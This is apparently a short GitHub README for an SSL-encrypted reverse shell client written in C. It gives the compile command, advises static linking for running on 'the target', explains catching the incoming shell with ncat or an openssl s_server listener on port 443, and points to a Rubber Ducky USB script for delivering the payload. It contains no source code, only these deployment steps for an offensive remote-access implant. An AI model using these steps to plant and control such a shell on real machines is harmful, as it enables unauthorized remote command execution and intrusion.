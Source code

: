 

## Compilation and Use
 
  Before compiling, please make sure you have the OpenSSL dev package installed.
  Compile using : 
       <b> gcc -Wall -g -o shell shell.c -lssl -lcrypto </b></br>

  You will probably want to link statically against the library to avoid dependencies issues on the target. 
  You can either use [ncat](http://edoceo.com/cli/ncat) or any other tool with ssl support to send commands to the client .
  To test the client, you can use openssl s_server utility on your server and wait for connections: </br>
       <b>openssl s_server -key key.pem -cert cert.pem -accept 443</b>



## Rubber Ducky Script
  This is a script that can be used to deliver your payload using HAK5 [Rubber Ducky USB stick](https://ducktoolkit.com).
